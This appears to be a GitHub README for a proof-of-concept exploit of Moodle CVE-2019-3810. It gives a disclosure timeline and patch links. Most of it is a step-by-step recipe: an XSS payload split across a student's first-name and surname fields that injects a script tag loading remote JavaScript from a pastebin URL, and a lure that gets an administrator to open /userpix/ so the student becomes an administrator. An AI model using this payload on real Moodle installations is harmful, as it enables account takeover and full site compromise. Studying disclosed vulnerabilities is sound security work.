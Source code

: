 # Moodle CVE-2019-3810

Moodle (< 3.6.2, < 3.5.4, < 3.4.7, < 3.1.16) XSS PoC for Privilege Escalation (Student to Admin). This is one of the past bugs that I discovered during past pentest in an academic institution. It was successful enough at the time to practically steal admin access and gain complete control over Moodle using just one simple bug.

We can see from [the git history](https://github.com/moodle/moodle/blame/785e29e954f601a4f8d406aa0f3c9dba001d5018/userpix/index.php#L16), the bug existed since old versions of Moodle (2003) and [just patched in 2019](https://github.com/moodle/moodle/commit/14f9bad3cebf1aa6bb73be48020653e1f792dc29).

Timeline:
- December 2018 - Reported the bug to Moodle
- January 2019 - Patch released
- April 2021 - PoC disclosure

## WARNING

FOR EDUCATIONAL PURPOSES ONLY. DO NOT USE THE EXPLOIT FOR ILLEGAL ACTIVITIES. THE AUTHOR IS NOT RESPONSIBLE FOR ANY MISUSE OR DAMAGE.

## PoC

1. Upload the [payload.js](payload.js) to pastebin or other similar service. Change the value of `userid` to your own id. Let's say the URL is `https://pastebin.com/raw/xxxxxxxx`.
2. Login to your student account.
3. Set first name with `" style="position:fixed;height:100%;width:100%;top:0;left:0" onmouseover="x=document.createElement`
4. Set surname with `('script');x.src='https://pastebin.com/raw/xxxxxxxx';document.body.appendChild(x); alert('XSS')`
5. Ask the administrator to open `/userpix/` page or put the link to that page on your post and wait.

If successful, your account will be added as administrator.

[Demonstration video](moodle-xss-privilege-escalation.mp4)
